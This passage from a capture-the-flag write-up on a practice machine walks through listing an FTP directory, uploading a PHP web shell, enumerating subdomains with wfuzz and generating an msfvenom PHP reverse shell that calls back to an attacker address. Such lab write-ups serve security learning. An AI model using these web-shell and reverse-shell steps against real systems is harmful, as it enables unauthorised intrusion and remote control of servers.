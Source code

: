 Good hint, right? Let's see the `ftp` we left behind in the beginning:

```bash
ftp 10.10.10.197
...
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Oct 25 11:59 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
```

Seems that we have the website here. Since it runs PHP code, we should upload a webshell. I choose [this one](https://github.com/TheBinitGhimire/Web-Shells/blob/master/mini.php) for no particular reason. So, we:

```
PUT mini.php
```

But going to `http://sneakycorp.htb/mini.php` it's not found... That's because we should do a little step more and enumerate subdomains! To do this:

```bash
wfuzz -c -z file,/usr/share/wordlists/discovery/subdomains-top1million-5000.txt -H "Host: FUZZ.sneakycorp.htb" --hc 404,301 "http://sneakycorp.htb"
```

From the output, we find `dev` is resolved, which is curious, because it's the same name as the `ftp` folder, in fact, at `http://dev.sneakycorp.htb/mini.php` (after we add the domain to the hosts file) we are able to use the web shell... for like 10 seconds... So a reverse shell with PHP is preferrable. BTW I'm sorry for that mini shell, it is really awful and distracting. 

But, let's make our reverse shell, and what better way to generate that with `msfvenom`?

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.224 LPORT=9001 > lolz.php
```
